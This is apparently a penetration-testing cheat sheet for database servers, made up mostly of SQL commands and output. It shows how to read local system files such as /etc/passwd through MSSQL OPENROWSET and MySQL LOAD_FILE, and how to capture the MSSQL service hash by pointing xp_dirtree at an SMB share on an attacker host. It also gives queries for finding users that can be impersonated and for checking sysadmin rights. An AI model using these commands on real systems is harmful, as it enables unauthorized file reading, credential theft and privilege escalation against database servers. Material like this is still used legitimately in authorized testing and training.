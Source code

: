 ## Read Local Files
MSSQL

```sql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

mysql

```sql
mysql> select LOAD_FILE("/etc/passwd");
```

## Capture MSSQL Service Hash

After running `responder` or `impacket-smbserver`
```sql
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

subdirectory    depth
--------------- -----------
```


## Impersonate Existing Users with MSSQL

#### Identify Users that We Can Impersonate

```sql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```

#### Verifying our Current User and Role

```shell
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
